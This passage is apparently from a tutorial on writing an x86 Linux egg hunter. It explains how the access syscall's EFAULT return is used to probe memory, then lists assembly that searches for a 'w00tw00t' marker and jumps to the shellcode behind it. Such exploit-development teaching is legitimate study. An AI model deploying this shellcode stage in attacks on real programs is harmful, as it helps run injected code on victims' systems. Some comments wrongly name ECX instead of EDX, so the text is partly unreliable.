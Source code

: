 ## The access syscall ##

From the `man 2 access` pages we can see that access syscall takes two arguments and checks if calling process can access file pathname. 
At first it seams non usefull to us, but the thing is, access syscall can also accept memory address instead of file pathname and as such can verify if user can access memory location.  
Based on the return value (stored in EAX register), we can conclude whether program can access memory location without causing segmentation fault. 

```
int access(const char *pathname, int mode);
```

> access() checks whether the calling process can access the file pathname. If pathname is a symbolic link, it is dereferenced.
> access() and faccessat() may fail if: EFAULT pathname points outside your accessible address space.

So to succesfully use access, we need to monitor return value stored in EAX. If EAX is equal to -14 which is EFAULT then tested address cannot be accessible.

EFAULT is defined in `/usr/include/libr/sflib/common/sftypes.h` file and F_OK is defined in `/usr/include/unistd.h` file.
 that has code 14, or 0xf2 in negative form.

```
#define EFAULT          14      /* Bad address */
```

## Egg Hunter - second attempt ##

```
global _start

section .text
_start:

MOV EDI, 0x74303077 

XOR ECX, ECX                  ; clear ECX as ECX is used as second argument to access syscall
XOR EDX, EDX                  ; clear EDX as EDX will be used to store current address, starting with 0

NEXT_ADDRESS:                 ; label used for looping
  INC EDX                     ; increase EDX by 1 (next address)

XOR EAX, EAX                  ; clear EAX as EAX is used for access syscall number (0x21)
MOV AL, 0x21                  ; move access syscall number in EAX
LEA EBX, [EDX]                ; copy EDX address to EBX as first argument to access syscall
INT 0x80                      ; interrupt (syscall 0x21)
CMP AL, 0xF2                  ; compare access syscall result in EAX with 0xF2 which represent EFAULT
JZ SHORT NEXT_ADDRESS         ; if address is not accessible then jump to NEXT_ADDRESS         

CMP [EDX], EDI                ; if address is accessible then compare 4 bytes with w00t
JNZ SHORT NEXT_ADDRESS        ; if w00t is not found, jump to NEXT_ADDRESS

CMP [EDX+4], EDI              ; if w00t is found, compare next 4 bytes with w00t 
JNZ SHORT NEXT_ADDRESS        ; if second w00t is not found then jump to NEXT_ADDRESS

ADD EDX, 0x8                  ; if two eggs (w00tw00t) are found, increase ECX + 8         
JMP EDX                       ; jump to ECX + 8 address where shell code would be located
```
